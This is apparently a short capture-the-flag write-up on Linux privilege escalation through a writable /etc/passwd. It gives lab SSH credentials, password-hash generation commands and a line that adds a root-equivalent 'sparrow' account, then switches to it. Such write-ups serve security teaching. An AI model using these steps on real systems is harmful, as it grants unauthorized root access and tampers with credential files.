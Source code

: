 # Name: Web: Privilege Escalation: Writable

## Vulnerability

Writable ```/etc/passwd``` file.

## Exploit

Connect with ssh to user ```jack:YvFWPeC7sTWJdaYQ```, port 2022.

```ssh jack@<IP> -p 2022```

If you look at the ```/etc/passwd``` file we can see that our user account has read/write access.

```ls -la /etc/passwd```

What we can do is to generate a new password using openssl:

```openssl passwd -1 -salt sparrow sparrow```

```mkpasswd -m SHA-512 sparrow```

```python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'```

This will generate to you a new password which we will write to ```/etc/passwd``` file.

Add the following line:

```sparrow:GENERATED_PASSWORD:0:0:Sparrow:/root:/bin/bash```

Now you can switch the current user to the privileged ```sparrow``` user:

```su sparrow```

And you are root!
